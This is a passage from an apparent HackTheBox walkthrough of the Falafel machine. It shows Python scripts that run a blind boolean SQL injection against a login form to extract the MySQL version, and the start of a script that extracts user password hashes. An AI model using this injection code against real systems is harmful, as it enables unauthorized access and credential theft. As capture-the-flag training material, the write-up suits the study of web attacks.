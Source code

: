 ```py
    limit = 1
    char = 42
    prefix = []
    print("[+] The version of MySQL is.... [+]")
    while(char!=123):
        injection_string = "username=chris'AND+ascii(substring(version(),%d,1))=+%s+--+-&password=test" %(limit,char)
        response = r.post(sqli_target,proxies=proxies,verify=False,cookies=r.cookies, data=injection_string,headers=headers).text
        # On the if put a error message (not success)
        if "Try again.." not in response:
            prefix.append(char)
            limit=limit+1
            extracted_char = ''.join(map(chr,prefix))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
            char=42
        else:
            char=char+1
            prefix = []

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's get the version of it
    getVersion(rhost)

if __name__ == '__main__':
    main()
```

Now the next thing we need to do is use this same script to try to extract the password hash from admin and chris

Here it is, the chris hash and the admin hash

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-27-HackTheBox-Falafel/2021-09-27-HackTheBox-Falafel%2011:29:36.png)

```py
#!/usr/bin/python3
#Author: 0x4rt3mis
#Auto SQLI Username Hash - Falafel HackTheBox

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def hashExtract(rhost,username):
    url = "http://%s" %rhost + "/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
```
